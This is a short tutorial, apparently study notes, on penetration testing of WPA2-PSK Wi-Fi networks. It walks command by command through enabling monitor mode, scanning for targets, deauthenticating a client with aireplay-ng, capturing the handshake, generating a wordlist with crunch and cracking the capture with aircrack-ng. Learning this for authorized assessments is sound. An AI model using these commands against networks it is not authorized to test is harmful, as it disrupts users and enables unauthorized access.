 # Wireless Penetration Testing

1. [Overview](#overview)
2. [Walkthrough](#walkthrough)

## Overview

* Wireless Pentesting - assessment of a wireless network (WPA2 PSK or WPA2 Enterprise).

* Activities performed:

  * Evaluating strength of PSK
  * Reviewing nearby networks
  * Assessing guest networks
  * Checking network access

* Tools used - wireless card, router, laptop

* Process (for WPA2 PSK):

  * Place wireless card into monitor mode
  
  * Discover info about network (channel, BSSID)

  * Select network & capture data

  * Perform deauth attack

  * Capture WPA handshake

  * Attempt to crack handshake

## Walkthrough

```shell
#connect wireless card to laptop
#ensure it is connected by checking wireless interfaces

iwconfig
#if it shows wlan0, it is connected
#it is currently in managed mode
#we need to place it in monitor mode

sudo airmon-ng check kill
#kill interfering processes

sudo airmon-ng start wlan0
#start monitor mode on interface

iwconfig
#wlan0mon is active

sudo airodump-ng wlan0mon
#search for networks
#stop it after identifying target network

sudo airodump-ng -c 11 --bssid 74:D2:1D:A4:82:5A -w capture wlan0mon
#-c for channel, --bssid for bssid
#-w for capture filename
#to capture handshake, we need to run deauth attack

#in new tab
sudo aireplay-ng -0 1 -a 74:D2:1D:A4:82:5A -c BC:6A:D1:81:5C:8B wlan0mon
#-a for access point, -c for station to deauth
#this helps in capturing handshake

ls
#we have capture files now

#we can generate wordlist using crunch
crunch 8 8 -t %@aaaa@% -o samplewordlist.txt
#8 letter password
#% for numbers and @ for lowercase chars

#to crack handshake
aircrack-ng -w samplewordlist.txt -b 74:D2:1D:A4:82:5A capture-01.cap
#-b for access point MAC address
#.cap file contains the handshake to be cracked
```
